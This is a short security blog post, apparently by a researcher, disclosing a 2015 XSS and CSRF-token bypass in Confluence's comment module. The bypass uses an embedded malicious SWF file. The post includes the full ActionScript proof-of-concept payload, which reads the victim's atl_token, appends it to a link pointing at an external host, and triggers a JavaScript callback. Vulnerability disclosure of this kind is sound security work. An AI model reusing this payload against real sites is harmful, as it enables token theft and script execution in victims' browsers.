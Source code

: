 ```yaml
---
title: XSS on confluence comment module
date: 2016-05-11 00:00:00 +02:00
categories:
- XSS
- SWF
layout: post
excerpt: On `02/Jul/2015 3:27 AM` i found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127
comments: true
thumbnail: japan.jpg
---
```


On `02/Jul/2015 3:27 AM` I found a XSS flaw on confluence, https://jira.atlassian.com/browse/CONF-38127

In confluence comment module, User can upload and embed the swf file in their comment. Confluence is using an `atl_token` parameter on GET HTTP request, if the attacker sends the link of .SWF file( the value of src on embed tag) to his victim the malicious SWF file won’t execute on the victim’s browser. Every user has atl_token. This is a CSRF protection and XSS protection too. We can bypass this protection by using `this.loaderInfo.parameters` in malicious .SWF. `this.loaderInfo.parameters.parameter_name` extracts the value of your target parameter, in this case, it `is atl_token`. The attacker must also insert a `<a>` tag in malicious SWF file then append the extracted atl_token to `<a>` tag , so if the victim clicks the link(`<a>`) in our embed SWF file, the .SWF file will be executed in the victim’s browser.

## Payload

{% highlight text %}
package
{
import flash.display.Sprite;
import flash.text.TextFormat;
import flash.text.TextField;
import flash.external.ExternalInterface;

public class Main extends Sprite
{

public function Main()
{
super();
var myFormat:TextFormat = new TextFormat();
myFormat.size = 200;
var xcode:String = this.loaderInfo.parameters.atl_token;
var myText:TextField = new TextField();
myText.width = 1000;
myText.height = 1000;
myText.htmlText = "<font size=\'300px\'> <a target=\'_blank\' href=\'https://pwnie.ninja/confluence/download/attachments/9469955/NewProjectx.swf?atl_token=" + xcode + "&callback=alert\'>CliCK ME</a> </font>";
addChild(myText);
ExternalInterface.call(this.loaderInfo.parameters.callback,"xss");
}
}
}
{% endhighlight %}


## References:
* [Jira Report](https://jira.atlassian.com/browse/CONF-38127)
* [Loaderinfo-parameter-in AS3](http://stackoverflow.com/questions/6057211/loaderinfo-parameters-in-as3)

